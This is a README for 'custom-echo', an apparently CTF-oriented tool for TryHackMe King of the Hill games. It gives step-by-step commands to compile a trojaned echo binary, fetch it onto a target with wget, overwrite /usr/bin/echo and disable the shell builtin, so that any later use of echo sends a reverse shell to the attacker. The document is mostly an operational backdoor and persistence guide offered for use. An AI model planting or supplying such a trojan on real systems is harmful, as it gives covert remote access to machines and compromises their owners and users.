 # custom-echo for KOTH | TryHackMe

--------------
> custom-echo, what does it do:<br />

1. This custom-echo will give you a rev-shell on a custom port you'll set, whenever somebody run echo command on the machine in which you planted your custom-echo you'll get a rev-shell on the port you'll set! :shipit:<br />

---------------
##### To Use It:<br />

  - first, let's clone the repo:<br />
     
     ```
     git clone https://github.com/hoodietramp/custom-echo
     ```

  - now let's `cd` into it:<br />

     ```
     cd custom-echo
     ```

  - now, we gotta compile it first (:<br />

     ```
     gcc -o h00dy-echo h00dy-echo.c
     ```

  - give it executable permissions:<br />
     
     ```
     chmod +x h00dy-echo
     ```
     
  - Now transfer it to the machine, in which you wanna use it:<br />

     - [ ] start a python server in your machine `python3 -m http.server 80`

     - [ ] on the koth machine, do `wget <your ip>/h00dy-echo; chmod +x h00dy-echo`

     - [ ] we are good to go... now let's change the echo on the machine with our custom-echo
          
           * `cp h00dy-echo /usr/bin/echo`

     - [ ] but it'll still not work, because echo is a shell-built-in, means it doesn't require any external binary to work in linux<br />
            
            So, to make it work, we can add this to the end of `.bashrc` file or We can disable shell-built-in echo by

             ```
             enable -n echo
             ```
            
            Or Run this:
              
              ```
              echo "alias echo='/usr/bin/echo'" >> ~/.bashrc
              ```
     - [x] Now we're ready to get our rev-shell. Let's test it < 3

-----------------
##### Testing custom-echo:<br />

![image](images/echo.png)

![image](images/nc.png)

------------------

Thanks To Holmes < 3
